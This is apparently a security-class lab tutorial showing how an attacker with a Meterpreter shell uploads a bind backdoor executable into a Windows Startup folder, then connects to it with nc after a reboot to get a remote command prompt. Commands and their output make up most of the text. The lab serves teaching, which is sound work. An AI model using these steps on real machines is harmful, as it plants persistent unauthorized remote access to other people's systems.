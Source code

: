 1. The attacker hacks into the target and opens a Meterpreter shell.

2. Within the Meterpreter shell, *upload* the backdoor program, *nice3.exe* in the example below, to the startup folder. <a href="https://github.com/xinwenfu/MalwareSamples">Here</a> are a few malware samples.

```
meterpreter > upload /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe C:\\Users\\"Malware Analysis"\\AppData\\Roaming\\Microsoft\\Windows\\"Start Menu"\\Programs\\Startup\\nice3.exe
[*] uploading  : /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe -> C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice3.exe
[*] Uploaded 49.83 KiB of 49.83 KiB (100.0%): /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe -> C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice3.exe
[*] uploaded   : /home/kali/GenCyber/MalwareSamples/Backdoors/SimpleBindBackdoor/nice3.exe -> C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice3.exe
```
Please pay attention to how the long folder name with multiple words and spaces is quoted.

To find where the startup folder is, press the Windows logo key  + R, type *shell:startup*, then select OK. This opens the Startup folder so that you can see where it is.

3. Restart Windows VM. Use *nc* at Kali VM to log into the backdoor, which spawns a Windows command console.
```
┌──(kali㉿Cyber-Range)-[~]
└─$ nc 192.168.1.19 8080    
Microsoft Windows [Version 10.0.19044.1706]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

# References
- v4L, <a href="https://www.hacking-tutorial.com/tips-and-trick/13-metasploit-meterpreter-file-system-command-you-should-know/#sthash.R7VFJW1l.dpbs">13 Metasploit Meterpreter File System Command You Should Know</a>
- <a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">METERPRETER BASIC COMMANDS</a>


